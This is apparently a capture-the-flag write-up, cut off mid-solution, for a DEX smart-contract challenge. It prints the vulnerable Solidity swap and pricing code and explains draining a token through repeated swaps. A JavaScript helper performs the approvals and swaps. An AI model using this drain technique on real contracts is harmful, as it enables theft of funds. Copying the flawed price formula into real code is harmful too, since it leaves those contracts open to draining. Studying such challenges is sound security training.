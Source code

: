 ```solidity
  function swap(address from, address to, uint amount) public {
    require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
    require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
    uint swapAmount = getSwapPrice(from, to, amount);
    IERC20(from).transferFrom(msg.sender, address(this), amount);
    IERC20(to).approve(address(this), swapAmount);
    IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
  }

  function getSwapPrice(address from, address to, uint amount) public view returns(uint){
    return((amount * IERC20(to).balanceOf(address(this)))/IERC20(from).balanceOf(address(this)));
  }

  function approve(address spender, uint amount) public {
    SwappableToken(token1).approve(msg.sender, spender, amount);
    SwappableToken(token2).approve(msg.sender, spender, amount);
  }

  function balanceOf(address token, address account) public view returns (uint){
    return IERC20(token).balanceOf(account);
  }
}

contract SwappableToken is ERC20 {
  address private _dex;
  constructor(address dexInstance, string memory name, string memory symbol, uint256 initialSupply) public ERC20(name, symbol) {
        _mint(msg.sender, initialSupply);
        _dex = dexInstance;
  }

  function approve(address owner, address spender, uint256 amount) public returns(bool){
    require(owner != _dex, "InvalidApprover");
    super._approve(owner, spender, amount);
  }
}
```

Here the `swap` amount is calculated incorrectly, we could drain one of the token by following a sequence of swaps.
```
TOKEN1 => TOKEN2 => TOKEN1 => TOKEN2 .......
```

> #### Solution:
> In order to swap tokens we have to first approve the contract to transfer our tokens.
> ```js
> swapTokens = async (from, to, amount) => {
>   if (!amount) amount = await contract.balanceOf(from, player);
>     await web3.eth.sendTransaction({
>         from: player,
>         to: from,
>         data: web3.eth.abi.encodeFunctionSignature("approve(address,uint256)") + instance.substring(2).padStart(64, "0") + web3.utils.encodePacked(amount).substring(2)
>     });
>     await contract.swap(from, to, amount);
> }
> ```
> 
> ```js
> await swapTokens(token1, token2);
> // [token1: player=0, contract=110] [token2: player=20, contract=90]
> 